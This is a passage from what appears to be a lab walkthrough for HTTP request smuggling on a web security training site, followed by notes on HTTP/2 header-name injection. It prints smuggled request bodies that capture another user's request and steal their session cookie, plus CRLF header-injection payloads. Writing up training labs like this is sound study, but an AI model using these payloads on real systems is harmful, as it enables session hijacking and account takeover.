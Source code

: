 ```
    ```

    Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix
5. Change the body of the request to the following:

    ```
    0

    POST / HTTP/1.1
    Host: ace41fe31eb06ba5c14d0568005600ca.web-security-academy.net
    Cookie: session=u0llG9qiVqbAPaUV2DqPD0I4EOVv1pEd;_lab_analytics=gOQcV7PleofNiBVXDyyyGQa2CzVjcdNLsNpU3bUDBfCkiCAhqZO1fD7HTIQhNBYoi038XgjksldGFj2NAeWNGCpEZ1JVaWJBW2mPfeXSyRELhtBmKWLcgizHfSOYv6yjPpCX4Fho24DKlbLKJAP9HIyYNVWFL56qszCsjyGJGgPm90Jm2XHQOJbNCzzUfAHRCDgEVu1CTyhxqOi7aClpnK2O0qYtmQ67niXDsh5y8gTJbmoAopYdZExeiDu2ANM4
    Content-Length: 800

    search=hellboywhat
    ```
6. Send the request, then immediately refresh the page in the browser. The next step depends on which response you receive:

    - If you got lucky with your timing, you may see a 404 Not Found response. In this case, refresh the page again and move on to the next step.
    - If you instead see the search results page, observe that the start of your request is reflected on the page because it was appended to the search=x parameter in the smuggled prefix. In this case, send the request again, but this time wait for 15 seconds before refreshing the page. If you see a 404 response, just refresh the page again.
7. Check the recent searches list. If it contains a GET request, this is the start of the victim user's request and includes their session cookie. If you instead see your own POST request, you refreshed the page too early. Try again until you have successfully stolen the victim's session cookie.
8. In Burp Repeater, send a request for the home page using the stolen session cookie to solve the lab.

    ```
    Cookie: victim-fingerprint=HNfC2USFe1lX9M0ID2IxQAnzNlbiZG5j; secret=C5uhFzN0qKB2uuAZnda3HcuNCiMuEQUU; session=rrOWoew0abOCbx2V5fTKLfvY92lCy2OM; _lab_analytics=9y3YRy5WX2yqINppeVH4VVwOj0cdPiVhl9KaeGDm
    ```

## HTTP/2 exclusive vectors

**Injecting via header names**

By combining colons with \r\n characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

```
Front-end (HTTP/2)
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore
```

```
Back-end (HTTP/1)
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

**Injecting via pseudo-headers**

```